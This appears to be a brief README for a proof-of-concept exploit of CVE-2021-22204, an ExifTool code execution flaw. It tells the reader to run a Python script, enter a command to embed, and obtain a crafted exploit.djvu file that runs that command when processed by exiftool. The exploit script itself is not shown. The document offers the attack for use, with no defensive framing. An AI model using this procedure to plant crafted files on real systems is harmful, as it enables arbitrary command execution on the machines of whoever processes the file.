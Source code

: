 ### how to use 
```bash
python3  poc_cve-2021-22204.py
```
#### enter your command here
#### now you should have `exploit.djvu`
### exploit 
```bash
exiftool  exploit.djvu
```

